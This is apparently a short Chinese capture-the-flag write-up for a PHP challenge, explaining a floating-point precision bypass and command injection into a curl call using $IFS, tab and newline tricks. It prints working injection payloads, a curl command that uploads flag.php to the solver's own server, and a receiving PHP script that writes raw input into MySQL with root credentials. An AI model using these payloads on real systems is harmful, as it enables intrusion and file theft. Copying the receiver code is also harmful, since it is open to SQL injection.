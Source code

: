 ###此题是全国大学生CTF联赛的真题 


$num=0.9999999999999999999999999999999999999999999999  利用浮点数精度绕过



住要看 system(curl$cmd/flag);

$cmd不允许存在空格...
要读取文件,必须要构造一个空格出来,

利用Shell 脚本中有个变量叫IFS(Internal Field Seprator) ，内部域分隔符
echo $IFS   | od -b  

最后 $cmd=$IFS\file:///$PWD/flag.php
或者 $cmd=$IFS\file:///var/www/html/exam/flag.php$IFS\
    $cmd=$IFS"file:///$PWD/"
    
    $cmd=curl -T flag.php http://自己的服务器/getflag.php < ./flag.php
    getflag.php 
    ```
       <?php
        $db = new mysqli('localhost', 'root', 'root', 'getflag');
        $t = file_get_contents('php://input');
        $db->query("INSERT INTO `getflag` (`flag`) VALUES('{$t}')");
        ?>
    ```
    
    我发现的:$cmd=$IFS\-x$IFS\wonderkun.cc$IFS\-T$IFS\flag.php$IFS\http
    
---
另一种做法可以绕过过滤 : 
?num=0.99999999999999999&cmd=$1%09file://$PWD/getflag.php%0a1

---
还有再来一种做法 : 
?num=0.99999999999999999&cmd=0%0als%0a0
?num=0.99999999999999999&cmd=0%0acat<getflag.php%0a0
